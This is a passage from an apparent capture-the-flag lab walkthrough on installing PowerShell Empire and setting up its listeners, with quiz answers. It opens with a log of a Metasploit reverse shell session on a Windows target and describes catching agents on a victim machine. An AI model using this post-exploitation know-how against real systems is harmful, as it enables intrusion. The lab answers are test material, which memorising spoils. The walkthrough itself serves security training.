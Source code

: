 ~~~
[*] Command shell session 1 opened (10.9.0.54:4444 -> 10.10.63.14:49334) at 2020-07-29 14:48:19 +0200
[+] 10.10.63.14:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.63.14:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.63.14:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=



C:\Windows\system32>
~~~

# [Task 2] Install

PowerShell Empire is a powerful post-exploitation framework which allows us to perform various functions such as privesc, password gathering, situational awareness, and many more!

Link to the official website: https://www.bc-security.org/post/the-empire-3-0-strikes-back

Clone the following GitHub page and run the initial setup script: https://github.com/BC-SECURITY/Empire/

~~~
# cd /opt
# git clone https://github.com/BC-SECURITY/Empire.git
# cd /opt/Empire
# ./setup/install.sh
~~~

When prompted, enter in a server negotiation password. This can be left blank for random generation, however, you should record this somewhere such as a LastPass vault.

Launch Empire with either `./empire` or `/opt/Empire/empire`


# [Task 3] Listeners

If you're going to play ball, first you have to learn how to catch. Similar to 'catching' a reverse shell with Netcat, we first have to set up a listener in order to properly handle any sort of agent we would install on our victim machine. Answer the following questions using the listeners help menu and then spawn a basic listener. 

## #3.1

**Once empire has launched, type help to view the various menus. Which menu to we launch to access listeners?**

Answer: `listeners`

## #3.2

**Launch the listeners menu. In a manner similar to cobalt strike/metasploit, this will launch a contextual submenu. For the sake of this tutorial, we will be using an http listener in order to catch our connections. Type the command 'uselistener http' now. You can double-tap tab to view all options for listeners following typing 'uselistener'**
